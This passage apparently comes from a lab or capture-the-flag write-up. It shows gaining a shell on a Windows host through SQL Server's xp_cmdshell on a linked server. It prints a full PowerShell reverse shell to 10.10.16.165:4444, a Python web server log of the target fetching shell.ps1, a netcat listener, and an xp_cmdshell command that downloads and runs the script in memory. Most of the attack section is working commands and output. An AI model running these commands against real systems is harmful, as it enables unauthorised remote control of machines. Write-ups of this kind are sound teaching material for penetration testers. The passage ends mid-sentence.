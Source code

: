 ```
                                                
```
{% endcode %}

so we can execute cmd command you can use `loadfile()` to read the flag but in our case we will get a shell so let's generate one with powershell and save it in "shell.ps1"

{% code fullWidth="true" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.165',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

i placed it in the same directory where we will run our Python server.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.203.10 - - [05/Apr/2024 06:54:11] "GET /shell.ps1 HTTP/1.1" 200 -
10.129.203.10 - - [05/Apr/2024 06:55:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

And ran Netcat on the same port for the PowerShell reverse shell.

```
nc -lnvp 4444
```

And executed the command to download our PowerShell reverse shell and execute it directly into memory

{% code fullWidth="true" %}
```
1> EXECUTE('xp_cmdshell ''echo IEX (New-Object Net.WebClient).DownloadString("http://10.10.16.165/shell.ps1") | powershell -noprofile''') AT [LOCAL.TEST.LINKED.SRV];
2> go
```
{% endcode %}

And as you can see, you will get a shell on that machine

![](https://www.hack-notes.pro/~gitbook/image?url=https%3A%2F%2F1785929618-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FAXymzcH5Nj1Px2RyBUvX%252Fuploads%252Fw1VS5xvciUEmiYPoAiPV%252FPasted%2520image%252020240405122921.png%3Falt%3Dmedia%26token%3De15c90a8-6679-4401-a36c-e7033fb856dc\&width=768\&dpr=4\&quality=100\&sign=12ece3ba\&sv=2)

I hope you enjoyed the process! Here are some references for furt

